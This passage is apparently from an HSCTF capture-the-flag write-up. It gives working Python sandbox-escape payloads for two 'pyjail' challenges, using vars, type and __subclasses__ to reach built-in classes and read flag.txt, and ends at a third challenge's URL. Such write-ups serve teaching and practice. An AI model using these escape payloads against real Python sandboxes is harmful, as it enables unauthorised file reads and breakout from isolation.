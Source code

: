## Solution

The pyjail removes some builtins and also prevents using atttributes where the attribute name length is greater than 5 characters. The solution uses the ``vars`` method to iterate through dictionaries and call methods using that. The license method allows you to print files if your overwrite the filename and then reset the object.

```
> vars(vars()["license"])["_Printer__lines"]=None
> print(vars(vars()["license"])["_Printer__lines"])
> vars(vars()["license"])["_Printer__filenames"]=["flag.txt"]
> print(vars()["license"]())
```

Flag: ``flag{it_would_be_a_shame_if_there_were_a_bunch_of_numbers_at_the_end_2846880189}``

# fast-forward-v2

## Description

```
I made Python even faster than before!

nc fast-forward-v2.hsctf.com 1337
```

File: [main.py](https://hsctf-10-resources.storage.googleapis.com/uploads/fc55d102db35d4a63f7772913f66d103aa3b2b31539730f60c0c60fdf484531b/main.py)

## Solution

This pyjail is a bit more complicated. It removes all globals with a length greater than 4 and prevents any attributes length greater than 4. Thankfully we can call both vars and type. By using the type method ``__subclasses__`` on the base object class we can get all classes including a printer class. By creating this class and then the print method we can print the flag (use the exit method to get content):

```python
exit(vars(vars(type)["__subclasses__"](type.mro(type({}))[1])[99])['get_data'](vars(type)["__subclasses__"](type.mro(type({}))[1])[99]('flag.txt','./'),'flag.txt'))
```

``flag{one_day_i_will_write_a_pyjail_without_unintended_solutions_3421670241}``

# fancier-page

## Description

```
http://fancier-page.hsctf.com
```
